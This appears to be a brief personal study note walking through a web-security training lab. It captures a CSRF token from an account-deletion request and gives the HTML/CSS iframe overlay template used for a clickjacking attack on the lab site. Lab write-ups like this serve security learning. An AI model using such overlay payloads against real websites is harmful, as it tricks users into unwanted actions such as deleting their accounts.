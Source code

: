 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](../images/Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](../images/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](../images/Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved